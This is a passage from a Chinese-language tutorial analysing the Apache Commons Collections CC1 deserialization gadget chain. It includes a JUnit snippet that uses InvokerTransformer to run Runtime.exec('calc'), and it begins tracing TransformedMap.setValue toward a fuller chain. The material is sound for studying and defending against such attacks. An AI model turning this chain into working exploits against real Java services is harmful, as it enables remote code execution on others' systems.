 可以看到**transform**方法使用`input.getClass()`获取输入对象的类，然后通过`cls.getMethod(iMethodName, iParamTypes)`获取类中名为`iMethodName`且参数类型为`iParamTypes`的方法。

其中`iMethodName`等参数在实例化的时候就以实参的形式指定了，通过直接实例化**InvokerTransformer**，并且让**transform**的传入对象为**Runtime**即可成功调用到**exec**，具体如下代码

```
import org.apache.commons.collections.functors.InvokerTransformer;
import org.junit.Test;

import java.io.IOException;

public class CC1TEST {

    @Test
    public void Test() throws IOException {

        InvokerTransformer invokerTransformer= new InvokerTransformer(
                "exec", 
                new Class[]{String.class}, 
                new Object[]{"calc"});
        invokerTransformer.transform(Runtime.getRuntime());
    }
}
```

## TransformedMap#checkSetValue

查找**transform**的实现，找到**TransformedMap**里有一个方法，但是前缀是**protected**，也就无法外部调用

![](./images/image-33.png)

继续向上寻找，发现另一个函数`setValue`通过外部传参间接调用了**checkSetValue**，并且可以显式调用
